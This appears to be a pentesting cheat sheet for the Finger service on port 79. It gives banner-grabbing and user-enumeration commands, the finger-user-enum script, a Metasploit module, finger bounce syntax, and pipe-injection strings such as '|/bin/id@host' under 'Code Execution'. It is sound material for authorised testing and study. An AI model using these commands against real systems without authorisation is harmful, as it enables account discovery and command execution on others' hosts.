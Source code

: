 ```yaml
---
title: Finger Pentesting Best Practices
categories: [pentesting protocols,finger]
tags: [pentesting,finger,best practicies]
comments: true
---
```


# Finger

> Finger usually uses port 79
{: .prompt-tip }

# What is Finger?

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

```bash
PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 
```

# Finger Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:79 |

## Banner Grabbing

```bash
nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79
```

## Finger Credentials

## User Enumeration

```bash
finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.
```

## Alternatively you can use finger-user-enum from pentestmonkey, some examples:

Download script and run it with a wordlist: [HERE](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum-user-docs.pdf)

`finger-user-enum.pl` is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.

```bash
finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
```

![Untitled](/assets/img/pitcures/finger/finger.png)

## Metasploit module for user enumeration

```bash
use auxiliary/scanner/finger/finger_users
```

![Untitled](/assets/img/pitcures/finger/finger1.png)

## Code Execution

```bash
finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"
```

## Finger Bounce

```bash
finger user@host@victim
finger @internal@external
```